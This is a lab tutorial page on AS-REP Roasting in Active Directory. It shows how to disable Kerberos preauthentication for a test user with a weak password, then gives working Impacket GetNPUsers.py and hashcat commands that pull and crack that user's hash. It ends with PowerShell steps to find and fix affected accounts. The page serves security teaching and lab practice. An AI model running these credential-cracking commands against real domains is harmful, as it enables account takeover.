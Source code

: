 # AS-REP Roasting

## Configuring

### Prerequisite&#x20;

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

### Configuring

1. Open the "Active Directory Users and Computers" administration tool on `DC02`.

![](<../../../.gitbook/assets/image (6) (1) (1) (1) (1).png>)

2\. Click on "View" and enable "Avanced Features"

![](<../../../.gitbook/assets/image (4) (1) (1) (1) (1).png>)

3\. Open "Employees", right click the user `Richard` and click on "Properties"

![](<../../../.gitbook/assets/image (64) (1) (1) (1) (1) (1) (1) (1).png>)

4\. Open "Account" and scroll to the bottom in "Account options", then select "Do not require kerberos preauthentication".

![](<../../../.gitbook/assets/image (39) (1) (1) (1).png>)

5\. Right click on `Richard` and select "Reset Password". Uncheck "User must change password at next logon" and fill in the password `Sample123`. Click on "OK"

![](<../../../.gitbook/assets/image (65) (1) (1) (1) (1) (1).png>)

## Attacking

### How it works

When pre-authentication is not required, an attack can directly send a request for authentication. The KDC will return an encrypted TGT and the attacker can brute-force it offline.

### Tools

* [Impacket GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)

### Executing the attack

1. Make sure impacket is installed and run the GetNPUsers.py tool with the users we enumerated earlier. The tool will check if any of the enumerated users doesn't require pre-authentication and will request a ticket which we can crack offline.

```
GetNPUsers.py amsterdam/ -usersfile users.txt -format hashcat -outputfile asreproastinng
```

![](<../../../.gitbook/assets/image (7) (1) (1) (1).png>)

2\. The tool doesn't say anything about users that don't require pre-authentication. Check if the outputfile exists and cat it:

```
cat asreproasting
```

![](<../../../.gitbook/assets/image (43) (1) (1) (1).png>)

3\. The user richard doesn't require pre-authentication and we have an hash from the TGT. Lets crack it with hashcat and [this](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2020-200\_most\_used\_passwords.txt) wordlist. The hashcat parameters are:

* Crackingmode: `-a 0` for using a wordlist
* Hashmode: `-m 18200` for Kerberos 5, etype 23, AS-REP
* List with hashes: `asreproasting`
* Password list: `2020-200_most_used_passwords.txt`

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2020-200_most_used_passwords.txt
hashcat -a 0 -m 18200 asreproasting 2020-200_most_used_passwords.txt
```

![](<../../../.gitbook/assets/image (10) (1) (2) (1).png>)

4\. We succesfully cracked the password. The password for `Richard` is `Sample123`.

## Defending

### Recommendations

* Periodically check for users that don't require pre-authentication and remove the attribute.

Check for users with the attribute:

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Select-Object samAccountName
```

Remove the attribute for a single user:

```
Set-ADAccountControl -DoesNotRequirePreAuth $false -Identity <USER>
```

Check for users with the attribute and remove it:

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Set-ADAccountControl -DoesNotRequirePreAuth $false
```

### Detection



## References

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py" %}
